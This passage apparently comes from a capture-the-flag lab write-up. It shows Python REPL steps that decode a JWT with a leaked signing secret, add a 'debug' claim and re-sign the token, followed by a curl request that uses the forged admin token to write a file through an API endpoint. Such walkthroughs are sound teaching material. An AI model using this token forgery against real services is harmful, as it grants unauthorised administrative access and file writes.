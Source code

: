 I’ll drop into a Python terminal and validate. First I’ll import `jwt` and
save the token and secret:

    
    
    >>> import jwt
    >>> token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1In0.NzuBABYGGm_bMA51kmwrBTIXTaUA4OTcYBEmqprF5vM"
    >>> secret = "68b329da9893e34099c7d8ad5cb9c940"
    

With the wrong secret, `jwt.decode` will throw an error by default:

    
    
    >>> jwt.decode(token, "0xdf", algorithms=["HS256"])
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
      File "/home/oxdf/.local/lib/python3.8/site-packages/jwt/api_jwt.py", line 119, in decode
        decoded = self.decode_complete(jwt, key, algorithms, options, **kwargs)
      File "/home/oxdf/.local/lib/python3.8/site-packages/jwt/api_jwt.py", line 90, in decode_complete
        decoded = api_jws.decode_complete(
      File "/home/oxdf/.local/lib/python3.8/site-packages/jwt/api_jws.py", line 152, in decode_complete
        self._verify_signature(signing_input, header, signature, key, algorithms)
      File "/home/oxdf/.local/lib/python3.8/site-packages/jwt/api_jws.py", line 239, in _verify_signature
        raise InvalidSignatureError("Signature verification failed")
    jwt.exceptions.InvalidSignatureError: Signature verification failed
    

But with the secret from the environment, it works:

    
    
    >>> jwt.decode(token, secret, algorithms=["HS256"])
    {'type': 'access_token', 'exp': 1651755361, 'iat': 1651064161, 'sub': '12', 'is_superuser': True, 'guid': '83e3ed7a-d66d-4a27-a922-701fb9fdc755'}
    

I’ll save the decoded data to `user`, add the `debug` key, and create a new
token:

    
    
    >>> user = jwt.decode(token, secret, algorithms=["HS256"])
    >>> user["debug"] = True
    >>> jwt.encode(user, secret,'HS256')
    'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1IiwiZGVidWciOnRydWV9.oyFkKgOC6zls6IY7i3-IOalxgFWXfyR3SRVlFVovLao'
    

#### Write File

I’ll use this token with `curl` to try to write a file:

    
    
    oxdf@hacky$ curl http://10.10.11.162/api/v1/admin/file/L3RtcC8weGRm \
    > -H 'Content-Type: application/json' \
    > -d '{"file": "string"}' \
    > -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1IiwiZGVidWciOnRydWV9.oyFkKgOC6zls6IY7i3-IOalxgFWXfyR3SRVlFVovLao'
    {"result":"success"}
    